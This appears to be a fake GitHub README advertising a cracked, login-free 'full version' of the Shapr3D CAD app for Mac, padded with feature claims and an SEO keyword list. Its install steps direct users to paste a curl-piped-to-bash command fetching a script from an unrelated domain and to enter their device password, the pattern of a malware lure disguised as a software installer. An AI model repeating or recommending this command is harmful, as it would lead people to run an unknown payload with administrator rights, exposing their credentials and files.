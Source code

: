 # Shapr3D for macOS for Mac

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://shapr3d-download-mac.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



🎯 **What You Unlock**

   📐 Full 2D/3D sketching and solid modeling tools  
   🧱 Parametric modeling and real-time visualization  
   🗂️ Import/export support (STEP, IGES, STL, 3MF, etc.)  
   🛠️ Offline CAD workspace with full toolset  
   🖥️ Native M1/M2 Mac support — high performance  
   🔌 No login, subscription, or internet required

🖼 **Preview**

![Shapr3D User Interface](https://us1.discourse-cdn.com/flex002/uploads/shapr3d/original/2X/2/286328037feef52b11a7c1fd9b6b5b045c8cb760.jpeg)  


![Sketch & Modeling](https://embed-ssl.wistia.com/deliveries/c5b1e486bec0c1ff1f75ff002a3fba3053ef536c.webp?image_crop_resized=1280x960)  


![Multi-device Workflow](https://cdn.prod.website-files.com/5fcde6f56fdac5769934eead/655be7280dd60693e86dc860_feature-multidevice-cad-2.webp)  


🔍 **SEO Keywords**

shapr3d mac, shapr3d mac download, shapr3d for mac, shapr3d mac m1, shapr3d mac os, shapr3d on mac, shapr3d offline setup mac, shapr3d activation mac, shapr3d full version mac, shapr3d macbook pro, shapr3d free download mac, shapr3d installer mac, shapr3d no login mac, shapr3d standalone mac, shapr3d pro mac, shapr3d enterprise mac, shapr3d cad mac, parametric modeling mac, shapr3d 3d modeling mac, solid modeling mac, shapr3d offline installer mac, cad software for mac, macos cad tool, shapr3d apple silicon
